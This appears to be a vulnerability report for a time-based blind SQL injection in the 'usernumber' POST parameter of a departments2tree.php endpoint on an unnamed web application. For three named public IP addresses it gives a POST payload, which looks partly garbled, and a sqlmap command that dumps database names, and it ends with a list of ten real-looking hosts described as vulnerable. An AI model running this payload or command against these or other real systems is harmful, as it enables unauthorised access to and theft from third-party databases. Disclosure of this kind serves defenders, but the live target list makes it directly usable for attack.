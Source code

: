  

**Vulnerability hazards:**

Attackers can use this vulnerability to obtain all information in the database and enter the background of the website

**Vulnerability details:**

Case number one:

http://39.100.117.243:7080

![img](https://raw.githubusercontent.com/jm1913/vulns/main/clip_image002.jpg)

There are points of SQL injection

http://39.100.117.243:7080/api/client/departments2tree.php

The parameter usernumber submitted by POST on this page has time blind injection

 

Payload:

addr=&content=&enddate=&executor=&file1=&filetype1=&fileurl=&lang=zh&priority=&relevanter=&sign=69528b7d5fec328f9b25fb1c0a67b2f8&startdate=×tamp=1670555316267&title=&userelnumber=100101*sep/from(sel** union/**/select+1)='

 

See the attachment for the request packet

python sqlmap.py -r 1.txt -p usernumber --dbs --batch

Successfully ran out of the library name

![img](https://raw.githubusercontent.com/jm1913/vulns/main/clip_image004.jpg)

Case two:

http://58.20.99.190:7080/![img](https://raw.githubusercontent.com/jm1913/vulns/main/clip_image005.jpg)

There are points of SQL injection

http://58.20.99.190:7080/api/client/departments2tree.php

The parameter usernumber submitted by POST on this page has time blind injection

 

Payload:

addr=&content=&enddate=&executor=&file1=&filetype1=&fileurl=&lang=zh&priority=&relevanter=&sign=69528b7d5fec328f9b25fb1c0a67b2f8&startdate=×tamp=1670555316267&title=&userelnumber=100101*sep/from(sel** union/**/select+1)='

 

See the attachment for the request packet

python sqlmap.py -r 1.txt -p usernumber --dbs --batch

Successfully ran out of the library name

![img](https://raw.githubusercontent.com/jm1913/vulns/main/clip_image007.jpg)

Case three:

http://218.93.5.78:7080/![img](https://raw.githubusercontent.com/jm1913/vulns/main/clip_image008.jpg)

There are points of SQL injection

http://218.93.5.78:7080/api/client/departments2tree.php

The parameter usernumber submitted by POST on this page has time blind injection

 

Payload:

addr=&content=&enddate=&executor=&file1=&filetype1=&fileurl=&lang=zh&priority=&relevanter=&sign=69528b7d5fec328f9b25fb1c0a67b2f8&startdate=×tamp=1670555316267&title=&userelnumber=100101*sep/from(sel** union/**/select+1)='

 

See the attachment for the request packet

python sqlmap.py -r 1.txt -p usernumber --dbs --batch

Successfully ran out of the library name

![img](https://raw.githubusercontent.com/jm1913/vulns/main/clip_image010.jpg)

 

 

 

**case:**

http://39.100.117.243:7080

http://58.20.99.190:7080/

http://218.93.5.78:7080/

http://222.75.56.190:7080/

http://113.98.58.59:7080/

http://117.157.231.160:7080/

http://144.123.175.94:7080/

http://221.11.18.165:7080/

http://58.213.102.206:7080/

http://120.224.213.22:7080/

 
